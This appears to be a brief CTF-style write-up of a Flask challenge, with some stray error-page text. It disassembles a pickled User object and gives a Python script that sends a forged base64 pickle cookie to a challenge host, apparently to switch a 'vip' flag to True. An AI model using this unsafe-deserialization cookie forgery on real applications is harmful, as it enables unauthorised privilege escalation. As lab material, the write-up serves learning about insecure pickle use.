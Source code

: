 ### L Inc.



Not Found

The requested URL was not found on the server. If you entered the URL manually please check your spelling and try again.

```
Flask
python -m pickletools
```

https://docs.python.org/zh-cn/3/library/pickletools.html#module-pickletools

```
    0: \x80 PROTO      4              Protocol version indicator.
    2: \x95 FRAME      42             Indicate the beginning of a new frame.
   11: \x8c SHORT_BINUNICODE 'app'    Push a Python Unicode string object.
   16: \x94 MEMOIZE    (as 0)         Store the stack top into the memo.  The stack is not popped.
   17: \x8c SHORT_BINUNICODE 'User'   Push a Python Unicode string object.
   23: \x94 MEMOIZE    (as 1)         Store the stack top into the memo.  The stack is not popped.
   24: \x93 STACK_GLOBAL              Push a global object (module.attr) on the stack.
   25: \x94 MEMOIZE    (as 2)         Store the stack top into the memo.  The stack is not popped.
   26: )    EMPTY_TUPLE               Push an empty tuple.
   27: \x81 NEWOBJ                    Build an object instance.
   28: \x94 MEMOIZE    (as 3)         Store the stack top into the memo.  The stack is not popped.
   29: }    EMPTY_DICT                Push an empty dict.
   30: \x94 MEMOIZE    (as 4)         Store the stack top into the memo.  The stack is not popped.
   31: (    MARK                      Push markobject onto the stack.
   32: \x8c     SHORT_BINUNICODE 'name' Push a Python Unicode string object.
   38: \x94     MEMOIZE    (as 5)       Store the stack top into the memo.  The stack is not popped.
   39: \x8c     SHORT_BINUNICODE '1'    Push a Python Unicode string object.
   42: \x94     MEMOIZE    (as 6)       Store the stack top into the memo.  The stack is not popped.
   43: \x8c     SHORT_BINUNICODE 'vip'  Push a Python Unicode string object.
   48: \x94     MEMOIZE    (as 7)       Store the stack top into the memo.  The stack is not popped.
   49: \x89     NEWFALSE                Push False onto the stack.
   50: u        SETITEMS   (MARK at 31) Add an arbitrary number of key+value pairs to an existing dict.
   51: b    BUILD                       Finish building an object, via __setstate__ or dict update.
   52: .    STOP                        Stop the unpickling machine.
highest protocol among opcodes = 4
```



```
from sys import base_exec_prefix
import requests
import base64

from requests.api import post
url = 'http://89c33534-a8d0-4473-b9a7-26f3e4891fcb.web.woooo.tech/'
c = {'user':'gASVNAAAAAAAAACMA2FwcJSMBFVzZXKUk5QpgZR9lCiMBG5hbWWUjAsxMTExMTExMTExMZSMA3ZpcJSIdWIu'}

postdata = {'name' : '11111111111'}

req = requests.post(url= url ,data= postdata,cookies=c)
out = req.text

print(out)

print(req.cookies)
print(req.headers)
```